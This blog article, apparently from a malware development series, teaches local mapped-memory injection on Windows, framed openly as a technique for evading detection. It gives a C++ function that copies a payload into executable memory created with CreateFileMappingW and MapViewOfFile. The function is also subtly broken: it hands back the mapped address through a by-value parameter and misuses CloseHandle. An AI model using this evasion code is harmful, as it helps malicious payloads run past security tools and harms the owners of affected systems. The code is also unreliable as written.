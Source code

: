 ```yaml
---
title: "Malware Development: Crafting Digital Chaos 0x9: Private vs Mapped memory"
classes: wide
header:
  teaser:  /assets/images/law.jpg
ribbon: black
description: "Article 10 of Malware Development series"
categories:
  - Malware Development
tags:
  - Malware Development
  - Injection
  - Memory
  - WinAPI
  - C++
toc: true
---
```


# Private vs Mapped memory

Usually and for the wide use of API calls such as `VirtualAlloc()` and `VirtualAllocEx()` and as the memory allocation type of these API calls is Private memory, the detection is becoming very high and thus it is mandatory to find an evasion technique.

Another type of Injection can be Mapping Injection, or in other words injecting malicious code in `Mapped` memory sections, and this way we can avoid using the API calls we mentioned above and use API calls such as `CreateFileMapping` and `MapViewOfFile`.

# Payload Injection in Mapped regions

## CreateFileMapping 

This API call return a handle to a file object, and the contents of the file on disk are mapped to a memory region.

```cpp
HANDLE CreateFileMappingW(
  [in]           HANDLE                hFile,
  [in, optional] LPSECURITY_ATTRIBUTES lpFileMappingAttributes,
  [in]           DWORD                 flProtect,
  [in]           DWORD                 dwMaximumSizeHigh,
  [in]           DWORD                 dwMaximumSizeLow,
  [in, optional] LPCWSTR               lpName
);
```

### Important Parameters

`[in] hFile`

A handle to the file from which to create a file mapping object.

`[in] flProtect`

Specifies the page protection of the file mapping object. All mapped views of the object must be compatible with this protection.

We usually use `PAGE_EXECUTE_READWRITE` here.

`[in] dwMaximumSizeLow`

The low-order  **DWORD**  of the maximum size of the file mapping object.

## MapViewofFile

This API call maps a view of a file mapping into the address space of a calling process.

```cpp
LPVOID MapViewOfFile(
  [in] HANDLE hFileMappingObject,
  [in] DWORD  dwDesiredAccess,
  [in] DWORD  dwFileOffsetHigh,
  [in] DWORD  dwFileOffsetLow,
  [in] SIZE_T dwNumberOfBytesToMap
);
```

### Important parameters

`[in] hFileMappingObject`

A handle to a file mapping object. The  [CreateFileMapping](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createfilemappinga)  and  [OpenFileMapping](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-openfilemappinga)  functions return this handle

`[in] dwDesiredAccess`

The type of access to a file mapping object, which determines the page protection of the pages. 

We usually use **FILE_MAP_EXECUTE** and **FILE_MAP_WRITE** because we obviously need a writeable and executable memory region.

`[in] dwNumberOfBytesToMap`

The number of bytes of a file mapping to map to the view

# Performing Injection to a Mapped memory

Here is the function that we will be using to perform the injection

```cpp
BOOL LocalMapping(IN PBYTE pPayload, IN size_t pPayloadSize, OUT PVOID pAddress) {

    HANDLE hFile = NULL;
    PVOID pMapAddress = NULL;


    hFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, pPayloadSize, NULL);

    if (hFile == NULL) {
        printf("CreateFileMapping failed with error %d", GetLastError());
        CloseHandle(hFile);
        return 0;
    }

    pMapAddress = MapViewOfFile(hFile, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, pPayloadSize);

    if (pMapAddress == NULL) {

        printf("MapViewofFile failed with error %d", GetLastError());
        CloseHandle(pMapAddress);
        return 0;
    }

    memcpy(pMapAddress, pPayload, pPayloadSize);
    pAddress = pMapAddress;
    return 1;
}
```

The code above implements what is called ``local mapped memory injection`` by creating an executable and writable memory region and then mapping it into the process's address space 

Then copying the payload into this mapped memory. here `CreateFileMappingW` is used to create a memory-mapped file object and `MapViewOfFile` to map this object into memory with `PAGE_EXECUTE_READWRITE` permissions. The payload is then copied into the allocated memory using `memcpy`.

# Executing

Lets execute and examine the memory regions after copying the payload.

We set a breakpoint after the `memcpy`.

![P0](/assets/images/malware-development/10-0.jpg)

And we can check the memory region type also by using Process Hacker.

![P1](/assets/images/malware-development/10-1.jpg)

As we can see, the memory is Mapped not Private, which helps us in improving our evasion technique and appearing more legitimate.
